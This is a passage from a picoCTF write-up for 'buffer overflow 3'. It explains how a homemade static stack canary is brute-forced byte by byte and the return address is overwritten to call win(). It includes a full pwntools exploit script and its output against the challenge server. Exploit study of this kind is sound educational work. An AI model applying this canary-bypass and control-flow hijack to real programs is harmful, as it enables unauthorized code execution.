   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
```

If you look closely, you might be able to see why `checksec` didn't find a stack canary. That's because it's actually a static variable, being read from a `canary.txt` on the host machine. Canaries that aren't implemented by the compiler are not really canaries!

Knowing that the canary will be four bytes long (defined by `CANARY_SIZE{:c}`) and immediately after the 64-byte buffer (defined by `BUFSIZE{:c}`), we can write a brute forcing script that can determine the correct canary with a simple trick: **by not fully overwriting the canary the entire time!** Check out this segment of source code:

```c title="vuln.c" caption="Inspecting source code" showLineNumbers{60}
   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
      fflush(stdout);
      exit(-1);
   }
```

This uses `memcmp(){:c}` to determine if the current canary is the same as the global canary. If it's different, then the program will run `exit(-1){:c}`, which is a really weird/invalid exit code and represents "[abnormal termination](https://softwareengineering.stackexchange.com/questions/314563/where-did-exit-1-come-from)":



However, if we theoretically overwrite the canary with a single correct byte, `memcmp(){:c}` won't detect anything!:


### II: Bypassing the Canary

We can now start writing our script! My plan is to loop through all printable characters for each canary byte, which can be imported from `string{:c}`. Let's include that in our pwn boilerplate alongside a simple function that allows us to swap between a local and remote instance:

```py title="solve.py" caption="Establishing context and processes" showLineNumbers
#!/usr/bin/env python3
from pwn import *
from string import printable

elf = context.binary = ELF("./vuln", checksec=False)
host, port = "saturn.picoctf.net", [PORT]
offset = 64

def new_process():
    if args.LOCAL:
        return process(elf.path)
    else:
        return remote(host, port)
```

Here's the big part: the `get_canary(){:py}` function. I'll be using [`pwnlib.log{:py}`](https://docs.pwntools.com/en/stable/log.html) for some spicy status messages. My general process for the brute force is visualized here if you're having trouble:


I'll be initially sending 64 + 1 bytes, and slowly appending the correct canary to the end of my payload until the loop has completed four times:

```py title="solve.py" caption="get_canary() function in solve.py" showLineNumbers{15}
def get_canary():
    canary = b""
    logger = log.progress("Finding canary...")
    for i in range(1, 5):
        for char in printable:
            with context.quiet:
                p = new_process()
                p.sendlineafter(b"> ", str(offset + i).encode())
                p.sendlineafter(b"> ", flat([{offset: canary}, char.encode()]))
                output = p.recvall()
                if b"?" in output:
                    canary += char.encode()
                    logger.status(f'"{canary.decode()}"')
                    break
    logger.success(f'"{canary.decode()}"')
    return canary
```

The final thing we need to figure out is the offset between the canary to ``$eip{:ansi}``, the pointer register, which we will repopulate with the address of `win(){:c}`. We can do this by appending a cyclic pattern to the end of our current payload (64 + 4 canary bytes) and reading the Corefile's crash location, which will be the ``$eip{:ansi}``:

<InfoBox type="info">
  **Note**: My canary is `abcd` because I put that in my `canary.txt`. It will be different on the remote server!
</InfoBox>

```ansi highlight{21}
$ python3 -q
>>> from pwn import *
>>> p = process('./vuln')
[x] Starting local process '/home/kali/ctfs/pico22/buffer-overflow-3/vuln'
[+] Starting local process '/home/kali/ctfs/pico22/buffer-overflow-3/vuln': pid 1493
>>> payload = cyclic(64) + b'abcd' + cyclic(128)
>>> p.sendline(b'196')
>>> p.sendline(payload)
>>> p.wait()
[*] Process '/home/kali/ctfs/pico22/buffer-overflow-3/vuln' stopped with exit code -11 (SIGSEGV) (pid 1493)
>>> core = Corefile('./core')
[x] Parsing corefile...
[*] '/home/kali/ctfs/pico22/buffer-overflow-3/core'
    Arch:      i386-32-little
    EIP:       0x61616165
    ESP:       0xffa06160
    Exe:       '/home/kali/ctfs/pico22/buffer-overflow-3/vuln' (0x8048000)
    Fault:     0x61616165
[+] Parsing corefile...: Done
>>> cyclic_find(0x61616165)
16
```

The offset is 16, so we'll have to append that amount of bytes to the payload followed by the address of `win(){:c}`. I'll combine all sections of our payload together with `flat(){:py}`, and then hopefully read the flag from the output:

```py title="solve.py" caption="Sending payload to remote server" showLineNumbers{32}
canary = get_canary()
p = new_process()
payload = flat([{offset: canary}, {16: elf.symbols.win}])
p.sendlineafter(b"> ", str(len(payload)).encode())
p.sendlineafter(b"> ", payload)
log.success(p.recvall().decode("ISO-8859-1"))
```

Here is my final script with all of its components put together:

```py title="solve.py" caption="Solve script" showLineNumbers
#!/usr/bin/env python3
from pwn import *
from string import printable

elf = context.binary = ELF("./vuln", checksec=False)
host, port = "saturn.picoctf.net", [PORT]
offset = 64

def new_process():
    if args.LOCAL:
        return process(elf.path)
    else:
        return remote(host, port)

def get_canary():
    canary = b""
    logger = log.progress("Finding canary...")
    for i in range(1, 5):
        for char in printable:
            with context.quiet:
                p = new_process()
                p.sendlineafter(b"> ", str(offset + i).encode())
                p.sendlineafter(b"> ", flat([{offset: canary}, char.encode()]))
                output = p.recvall()
                if b"?" in output:
                    canary += char.encode()
                    logger.status(f'"{canary.decode()}"')
                    break
    logger.success(f'"{canary.decode()}"')
    return canary

canary = get_canary()
p = new_process()
payload = flat([{offset: canary}, {16: elf.symbols.win}])
p.sendlineafter(b"> ", str(len(payload)).encode())
p.sendlineafter(b"> ", payload)
log.success(p.recvall().decode("ISO-8859-1"))
```

Running the script:

```ansi highlight{9}
$ python3 buffer-overflow-3.py
[+] Finding canary: 'BiRd'
[+] Opening connection to saturn.picoctf.net on port 57427: Done
[+] Receiving all data: Done (162B)
[*] Closed connection to saturn.picoctf.net port 57427
[+] aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaBiRdraaasaaataa-
auaaa6^H
    Ok... Now Where's the Flag?
    picoCTF{Stat1C_c4n4r13s_4R3_b4D_[REDACTED]}
```

We've successfully performed a brute force on a vulnerable static canary!
